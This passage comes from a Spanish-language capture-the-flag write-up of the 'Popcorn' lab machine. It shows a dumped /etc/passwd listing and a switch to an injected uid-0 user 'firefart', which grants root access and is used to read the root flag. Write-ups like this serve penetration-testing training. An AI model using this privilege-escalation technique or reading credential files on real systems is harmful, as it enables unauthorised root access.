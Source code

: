 ```bash
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
landscape:x:102:105::/var/lib/landscape:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
george:x:1000:1000:George Papagiannopoulos,,,:/home/george:/bin/bash
mysql:x:104:113:MySQL Server,,,:/var/lib/mysql:/bin/false
www-data@popcorn:/dev/shm$
```

Por lo tanto, migramos al usuario **firefart** con la contraseña que le indicamos:

```bash
www-data@popcorn:/dev/shm$ su firefart
Password: 
firefart@popcorn:/dev/shm# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:/dev/shm# 
```

Vemos que dicho usuario se encuentra en el grupo `root`, es como si cambiara el nombre de **root** por **firefart**, conservando todos los privilegios del usuario **root**; por lo tanto, de esta forma podemos visualizar la flag (root.txt).
